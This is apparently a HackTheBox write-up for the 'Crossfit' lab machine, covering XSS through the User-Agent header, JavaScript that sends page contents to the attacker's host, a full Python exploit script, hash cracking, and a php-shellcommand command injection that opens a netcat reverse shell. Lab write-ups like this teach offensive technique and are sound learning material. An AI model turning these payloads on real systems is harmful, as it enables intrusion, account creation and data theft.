## Overview

**HOLY MACKEREL THIS BOX WAS DIFFICULT!**

*I lost 10 kg due to the not eating anything for a week to just get this box complete!*

Okay I lied about losing weight, *I am still fat...*

Anyway, this box is one of the most rewarding boxes that is currently active on HackTheBox (as of writing this). Pulling off the XSS attack and other exploits *across* <s>(hah get it)</s> services was incredibly satisfying to complete and is definitely the biggest highlight of this box.

However, this box is a *loooooooooooooooooooong* one so I hope you have some free time to read this writeup!

---

## Initial: Finding The Gym Club Website

Like always I started off with an Nmap scan to see what services are exposed on the box.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 08:43 AWST
Nmap scan report for crossfit.htb (10.10.10.208)
Host is up (0.063s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ssl-cert: Subject: commonName=*.crossfit.htb/organizationName=Cross Fit Ltd./stateOrProvinceName=NY/countryName=US
| Not valid before: 2020-04-30T19:16:46
|_Not valid after:  3991-08-16T19:16:46
|_ssl-date: TLS randomness does not represent time
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b0:e7:5f:5f:7e:5a:4f:e8:e4:cf:f1:98:01:cb:3f:52 (RSA)
|   256 67:88:2d:20:a5:c1:a7:71:50:2b:c8:07:a4:b2:60:e5 (ECDSA)
|_  256 62:ce:a3:15:93:c8:8c:b6:8e:23:1d:66:52:f4:4f:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: Host: Cross; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.02 seconds
```

Firstly that FTP server looked really really juicy, especially if I can get guest access to it. Unfortunately I could not...

```
ghostccamm@kali:~/Desktop/hackthebox/machines/crossfit$ ftp crossfit.htb
Connected to crossfit.htb.
220 Cross Fit Ltd. FTP Server
Name (crossfit.htb:ghostccamm): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp>
```

Welp... That didn't work, so I tried to the website instead.



Hmmm, I only got the default Apache page. This meant that I needed to enumerate for subdomains on the box, since at the time I could not think of an alternative attack vector based on the open services that I had found. Going back to the FTP server, I noticed that it had an SSL certificate for encryption that could provide further details about subdomains used on the box. However, Nmap did not show the full certificate so I used `openssl` to dump the full certificate. I found out later on that `nmap -vv -sC -sV -p 21 crossfit.htb` could of also dumped the necessary information from the certificate that is shown below.

```
ghostccamm@kali:~/Desktop/hackthebox/machines/crossfit$ openssl s_client -connect crossfit.htb:21 -starttls ftp
CONNECTED(00000003)
depth=0 C = US, ST = NY, O = Cross Fit Ltd., CN = *.crossfit.htb, emailAddress = info@gym-club.crossfit.htb
verify error:num=18:self signed certificate
verify return:1
depth=0 C = US, ST = NY, O = Cross Fit Ltd., CN = *.crossfit.htb, emailAddress = info@gym-club.crossfit.htb
verify return:1
---
Certificate chain
 0 s:C = US, ST = NY, O = Cross Fit Ltd., CN = *.crossfit.htb, emailAddress = info@gym-club.crossfit.htb
   i:C = US, ST = NY, O = Cross Fit Ltd., CN = *.crossfit.htb, emailAddress = info@gym-club.crossfit.htb
---

...
```

*Oooooo* that email indicated to me that `gym-club.crossfit.htb` would be a valid subdomain on the box. So I added it to `/etc/hosts` and checked it out.


Noice I had found the Crossfit website!

---

## Initial: Cross Site Scripting to Create FTP Accounts

Now this step was pretty insane, but cool!

I spent over an hour enumerating `gym-club.crossfit.htb` trying to find any vulnerabilities. I had a fairly good idea that an XSS attack was the most likely attack method because... well the word *cross* is in the name of the box. Unfortunately, the developers of this website had implemented some XSS security checks on uploaded comments on the page http://gym-club.crossfit.htb/blog_single.php.



I found that the above security report notification was triggered whenever I tried to submit `<script>` in one of the comment fields.

*Now the trick here is to stare at this message for 2 hours and drive yourself to insanity like what I did.*

If you want to avoid the mental exhaustion, open up Burp Suite and look at what is being sent in your POST requests when you make a comment. Notice that your browser details is in the `User-Agent` request header and the security report that is generated will contain your *'browser information'*?

**What if the developers of the site assumed that the browser information from `User-Agent` is secure and did not sanitise the input?**

I tested this by using Burp Suite to modify the `User-Agent` request header to `<script src=http://<my ip address here>/test.js></script>` and to see if I get a response from the server on my `netcat` listener.



So wow, it worked! That is a pretty nifty method for XSS! A little bit guessy, but can definitely happen in real life.

I also found a new page that I could check http://gym-club.crossfit.htb/security_threat/report.php. However, we cannot directly access the page that makes me think that this page can only be accessed by `localhost`, since there are no session cookies in the request.

I exfiltrated the HTML of webpages by using either the XMLHttpRequest or fetch API, then base64 encoding the response as a GET parameter back to my own server. In the example below I am just using the fetch API but used XMLHttpRequest later on.

*exfiltrate.js*
```
fetch("http://gym-club.crossfit.htb/security_threat/report.php")
.then(function(data) {
	data.text().then(function(r_txt) {
		fetch("http://10.10.14.33:80/get_result.html?p="+btoa(r_txt));
	});
});
```



The HTML content from the security report webpage did not give me any useful information. However, I learnt that I could access locally running web servers that the developers never intended to be externally exposed.

I started marking some educated guesses for subdomains on the machine. One of the most obvious subdomains that I guessed was `ftp.crossfit.htb`, because of the FTP server that on the box. When I connected to `ftp.crossfit.htb` I was immediately redirected to http://ftp.crossfit.htb/accounts, that showed that I could create an account for the FTP server at http://ftp.crossfit.htb/accounts/create...

*Noooooiiiiice*

Let's take a closer look at the POST request form on the FTP account creation page.

```
<form action="http://ftp.crossfit.htb/accounts" method="POST">
    <input type="hidden" name="_token" value="KrZi8JGDZH7PMxhTEcVyFlc0WuKTHw82PX15ObxR">
     <div class="row">
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Username:</strong>
                <input type="text" name="username" class="form-control" placeholder="Username">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Password:</strong>
                <input type="password" name="pass" class="form-control" placeholder="Password">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12 text-center">
                <button type="submit" class="btn btn-primary">Submit</button>
        </div>
    </div>

</form>
```

So I just need to submit a POST request to http://ftp.crossfit.htb/accounts with the generated token and my username and password? Seems pretty easy... *right??*

**NOPE!**

Like always for me, I had to waste several hours on the most mundane problems. This time, the tokens that were generated and required for FTP account creation kept on expiring for me. I fiddled around with my JavaScript payload for ages, chucked out using the `fetch` API and tried to write the XSS exploit with <s>completely horrible</s> XMLHttpRequests.

In the end, my only issue was because I was not setting the `withCredentials` property for the XMLHttpRequests to true... The property allows for cross-site `Access-Control` requests, which I obviously needed since I was completing a XSS attack. I believe that was the correct explanation as to why I needed `Access-Control`, I honestly got so frustrated I went through the documentation and just tried everything until it worked. Definitely not the best methodology for this sort of thing...

Oh well... At least I had a working XXS payload that created an account on the FTP server, which I have shown below. My payload is actually embedded within a Python program that I wrote, but I will show that in a later section about initial foothold since it contains another payload not yet discussed.

*payload.js*
```
x = new XMLHttpRequest;
x.onreadystatechange = function() {
	if(x.readyState == 4) {
		r_txt = this.responseText;

		// Gets the nonce from the account creation page.
		re = new RegExp('<input type="hidden" name="_token" value="(.*?)">')
		token = r_txt.match(re)[1];

		post_data = "_token=" + token + "&username=test&pass=test12345678"

		y = new XMLHttpRequest;
		y.open("POST", "http://ftp.crossfit.htb/accounts");
		y.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
		y.withCredentials = true;
		y.onreadystatechange = function() {
			if(y.readyState == 4) {
				z = new XMLHttpRequest;
				z.open("GET", "http://10.10.14.52:80/get_result.html?p="+btoa(r_txt + post_data + this.responseText));
				z.send()
			}
		};
		y.send(post_data);
	}
}
x.open("GET", "http://ftp.crossfit.htb/accounts/create");
x.withCredentials = true;
x.send();
```

---

## Initial: Getting In By Uploading Naughty PHP Files To The FTP Server

After I created my FTP account, I couldn't get `ftp` of `sftp` to work for some reason, but I was too lazy to find a good CLI solution and just used FileZilla instead.



I could now see the source code for the different web servers that were running on the machine. There was also an empty folder called `development-test` that I could upload files to, which is *very very very very* interesting.

If the `development-test` folder was used to stage source code before production and was live, then I could upload some malicious code into that folder and gain access that way. I quickly found that when my files were uploaded I could access them using the previously mentioned XSS exploit to fetch my content on the subdomain `development-test.crossfit.htb`. Guessing that PHP was used on the development server, I first uploaded a PHP reverse shell file and...



**WE ARE IN BAAAAAAAAAAAAAAAABBBBBBBY!!!**

---

## Initial: Using Python To Handle the HTTP Requests to Perform the XSS Attacks

To help me carry out my XSS exploits, I created a Python script that handles the HTTP requests, JavaScript payloads and the decoding of the exfiltrated data automatically. It should work without any issues for you, with the exception that you need to name your uploaded PHP reverse shell as `rs.php` (you can change this within the source code of course).

<details><summary><b>Python Exploit Code</b></summary>
```python
import requests, threading, queue, argparse, base64, time, logging, re, sys
from http.server import BaseHTTPRequestHandler, HTTPServer

class PayloadHandler(BaseHTTPRequestHandler):
	FTP_CREATE_PAYLOAD = """
  x = new XMLHttpRequest;
  x.onreadystatechange = function() {{
  	if(x.readyState == 4) {{
  		r_txt = this.responseText;

  		// Gets the nonce from the account creation page.
  		re = new RegExp('<input type="hidden" name="_token" value="(.*?)">')
  		token = r_txt.match(re)[1];

  		post_data = "_token=" + token + "&username={username}&pass={password}"

  		y = new XMLHttpRequest;
  		y.open("POST", "http://ftp.crossfit.htb/accounts");
  		y.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
  		y.withCredentials = true;
  		y.onreadystatechange = function() {{
  			if(y.readyState == 4) {{
  				z = new XMLHttpRequest;
  				z.open("GET", "http://{lhost}:{lport}/get_result.html?p="+btoa(r_txt + post_data + this.responseText));
  				z.send()
  			}}
  		}};
  		y.send(post_data);
  	}}

  }}
  x.open("GET", "http://ftp.crossfit.htb/accounts/create");
  x.withCredentials = true;
  x.send();
  """

	REVERSE_SHELL_PAYLOAD = """
  async function postData(url = '', data = '') {{
  	const response = await fetch(url, {{
  		method: "POST",
  		body: data
  	}});
  	return response
  }}

  fetch("http://development-test.crossfit.htb/rs.php")
  .then(function(data) {{
  	data.text().then(function(r_txt) {{
  		fetch("http://{lhost}:{lport}/get_result.html?p="+btoa(r_txt));
  	}});
  }});
  """

	lhost = ""
	lport = ""
	payload = ""
	payload_queue = queue.Queue()

	def _set_response(self):
		self.send_response(200)
		self.send_header('Content-type', 'text/html')
		self.end_headers()

	def do_GET(self):
		if "/get_result.html" in self.path:
			encoded_data = self.path[19:]
			decoded_data = base64.b64decode(encoded_data).decode("utf-8")
			print(decoded_data)
			sys.exit(0)

		if self.path == "/payload.js":
			self._set_response()
			self.wfile.write(PayloadHandler.payload.encode("utf-8"))
			return

		self._set_response()
		self.wfile.write("Hi there!\n".encode("utf-8"))


	def send_request(payload_file):
		headers = {
		    "User-Agent" : "<script src=http://{lhost}:{lport}/{payload} ></script>".format(
				lhost=PayloadHandler.lhost,
				lport=PayloadHandler.lport,
				payload=payload_file
			)
		}

		data = {
		    "name" : "fakename",
		    "email" : "fake@email.com",
		    "phone" : "420696969",
		    "message" : "<script>", # Needed to trigger the security report
		    "submit" : "submit"
		}

		print("Sending Payload to: {}".format(payload_file))
		r = requests.post("http://gym-club.crossfit.htb/blog-single.php",
							headers=headers,
							data=data)

	def _worker():
		while True:
			payload_file = PayloadHandler.payload_queue.get()

			if payload_file == None:
				break

			if payload_file == "wait":
				print("Starting Exploit in 2 seconds!")
				time.sleep(2)
				PayloadHandler.payload_queue.task_done()
				continue
			PayloadHandler.send_request(payload_file)
			PayloadHandler.payload_queue.task_done()


	def set_payloads(username, password, lhost, lport, trigger_rs):
		PayloadHandler.lhost = lhost
		PayloadHandler.lport = lport

		if trigger_rs:
			PayloadHandler.payload = PayloadHandler.REVERSE_SHELL_PAYLOAD
		else:
			PayloadHandler.payload = PayloadHandler.FTP_CREATE_PAYLOAD

		PayloadHandler.payload = PayloadHandler.payload.format(
			lhost=lhost,
			lport=lport,
			username=username,
			password=password
		)

		print(PayloadHandler.payload)

	def run():
		worker_thread = threading.Thread(target=PayloadHandler._worker, daemon=True)
		worker_thread.start()
		logging.basicConfig(level=logging.WARNING)
		httpd = HTTPServer((PayloadHandler.lhost, PayloadHandler.lport), PayloadHandler)
		PayloadHandler.payload_queue.put(("wait"))
		PayloadHandler.payload_queue.put(("payload.js"))
		try:
			httpd.serve_forever()
		except KeyboardInterrupt:
			pass

		worker_thread.join()
		httpd.server_close()

def parse_args():
	parser = argparse.ArgumentParser(description="Exploitation script for Crossfit to create FTP accounts")

	parser.add_argument('-u', '--username',
						help='the name of the FTP user to create',
						required=True)

	parser.add_argument('-p', '--password',
						help='the password to set for the FTP account',
						required=True)

	parser.add_argument('-H', '--lhost',
						help='your IP address for hosting the web server',
						required=True)

	parser.add_argument('-P', '--lport',
						help='the port to use for the web server',
						required=True,
						type=int)

	parser.add_argument('-R', '--trigger_rs',
						help="Should trigger the uploaded reverse shell instead of creating a FTP account",
						action="store_true")

	return parser.parse_args()

def exploit(username, password, lhost, lport, trigger_rs):
	PayloadHandler.set_payloads(username, password, lhost, lport, trigger_rs)
	PayloadHandler.run()

if __name__ == "__main__":
	args = parse_args()
	exploit(args.username, args.password, args.lhost, args.lport, args.trigger_rs)
```
</details>

---

## User 1: How To Run LinPEAS

A fairly standard task to do when you have access to a machine is to run privilege escalation tools on the box. I used the lovely [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to see if it could automatically find anything juicy for me, which it found a stored hash for the user `hank` in `/etc/ansible/playbooks/adduser_hank.yml`.

```
[+] Looking for specific hashes inside files - less false positives (limit 70)
/etc/ansible/playbooks/adduser_hank.yml:$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/
```

This hash could be cracked using the RockYou wordlist and is 'powerpuffgirls'. So I tried logging in as `hank` on the box and **BINGO!** I had access to `hank` on the box and the got the user flag!

```
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@crossfit:/$ su hank
su hank
Password: powerpuffgirls

hank@crossfit:/$ cd
cd
hank@crossfit:~$ cat user.txt
cat user.txt
cf710dc09c2e30d3609fedfd8f7c0d37
```

*Easily the hardest part of this machine.*

---

## User 2: Escalating Privileges Using The FTP, MySQL and PHP Servers

Besides `hank`, there was another user called `isaac` on the box that had exposed some interesting source code for some PHP file called `send_updates.php`.

```
hank@crossfit:~$ cat /home/isaac/send_updates/send_updates.php
<?php
/***************************************************
 * Send email updates to users in the mailing list *
 ***************************************************/
require("vendor/autoload.php");
require("includes/functions.php");
require("includes/db.php");
require("includes/config.php");
use mikehaertl\shellcommand\Command;

if($conn)
{
    $fs_iterator = new FilesystemIterator($msg_dir);

    foreach ($fs_iterator as $file_info)
    {
        if($file_info->isFile())
        {
            $full_path = $file_info->getPathname();
            $res = $conn->query('SELECT email FROM users');
            while($row = $res->fetch_array(MYSQLI_ASSOC))
            {
                $command = new Command('/usr/bin/mail');
                $command->addArg('-s', 'CrossFit Club Newsletter', $escape=true);
                $command->addArg($row['email'], $escape=true);

                $msg = file_get_contents($full_path);
                $command->setStdIn('test');
                $command->execute();
            }
        }
        unlink($full_path);
    }
}

cleanup();
?>
```

The above PHP code emails files that are uploaded to some message folder to all emails that are stored within a database using [mikehaertl's php-shellcommand](https://github.com/mikehaertl/php-shellcommand). Unfortunately I could not view what was stored inside of the `config.php` and `db.php` files, but I can see that php-shellcommand version 1.6.0 was used by looking at the `composer.json` file.

```
hank@crossfit:/home/isaac/send_updates$ cat composer.json
{
    "require": {
        "mikehaertl/php-shellcommand": "1.6.0"
    }
}
```

After some quick googling that I did to learn what the heck this php-shellcommand was, I found out that versions before 1.6.1 were [**vulnerable to command injection!**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10774) The jist of the vulnerability is that if an invalid argument is given to `addArg` and results in an error code, we can then append additional commands to the argument so that they are executed.

Using the above source code, if we give it an *'email'* of `-B || nc 10.10.14.52 1234 -e /bin/bash`, the `-B` option will trigger the error code for `mail` since it is an invalid option and our payload (in this case a netcat reverse shell) would be executed.

*Noice*

I had a method to run arbitrary commands, but was it useful to escalate our privileges? *Yes*, I early on I looked at the running cronjobs and found that `send_updates.php` was executed every minute using the user `isaac`.

```
hank@crossfit:/home/isaac/send_updates$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

MAILTO=""
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	isaac	/usr/bin/php /home/isaac/send_updates/send_updates.php
#
```

*Nooice*

However, now I needed to figure out the credentials for the MySQL server and where this mysterious `$msg_dir` was located.

Firstly I looked for access to the MySQL server. I remembered from when I was enumerating http://gym-club.crossfit.htb/ that I found a page to sign up to their newsletter. That page indicated to me that the emails are stored in some database. So I took a closer look at the source code for the Gym Club website and found the MySQL credentials I needed.

```
hank@crossfit:/var/www/gym-club$ cat db.php
<?php
$dbhost = "localhost";
$dbuser = "crossfit";
$dbpass = "oeLoo~y2baeni";
$db = "crossfit";
$conn = new mysqli($dbhost, $dbuser, $dbpass, $db);
?>
```

*Noooice*

All I had to do now was find the location of where the message files were placed in order to trigger the exploit. I was stuck at this point for sometime searching for this folder, since no name was given. How I found it in the end was by checking files that are owned by the group `admins`, which hank was a member of.

```
hank@crossfit:/var/www/gym-club$ find / -group admins -type f 2>/dev/null
/home/isaac/send_updates/composer.lock
/home/isaac/send_updates/send_updates.php
/home/isaac/send_updates/composer.json
/etc/pam.d/chfn
/etc/pam.d/newusers
/etc/pam.d/vmtoolsd
/etc/pam.d/common-auth
/etc/pam.d/login
/etc/pam.d/systemd-user
/etc/pam.d/runuser-l
/etc/pam.d/common-account
/etc/pam.d/vsftpd.orig
/etc/pam.d/su
/etc/pam.d/vsftpd
/etc/pam.d/su-l
/etc/pam.d/chpasswd
/etc/pam.d/common-password
/etc/pam.d/common-session-noninteractive
/etc/pam.d/sshd
/etc/pam.d/common-session
/etc/pam.d/other
/etc/pam.d/chsh
/etc/pam.d/passwd
/etc/pam.d/cron
/etc/pam.d/runuser
```

Very interesting since `/etc/pam.d` is used for storing the configuration files for Pluggable Authentication Modules (PAM). Taking a look at the contents of the `vsftpd` configuration I found some new FTP credentials.

```
hank@crossfit:/etc/pam.d$ cat vsftpd
auth sufficient pam_mysql.so user=ftpadm passwd=8W)}gpRJvAmnb host=localhost db=ftphosting table=accounts usercolumn=username passwdcolumn=pass crypt=3
account sufficient pam_mysql.so user=ftpadm passwd=8W)}gpRJvAmnb host=localhost db=ftphosting table=accounts usercolumn=username passwdcolumn=pass crypt=3

# Standard behaviour for ftpd(8).
auth    required        pam_listfile.so item=user sense=deny file=/etc/ftpusers onerr=succeed

# Note: vsftpd handles anonymous logins on its own. Do not enable pam_ftp.so.

# Standard pam includes
@include common-account
@include common-session
@include common-auth
auth    required        pam_shells.so
```

Logging into the FTP server with `ftpadm:8W)}gpRJvAmnb` revealed a `messages` folder that I could not see before, which I assumed was the elusive `$msg_dir` that I had been looking for since nothing else on the machine was it.

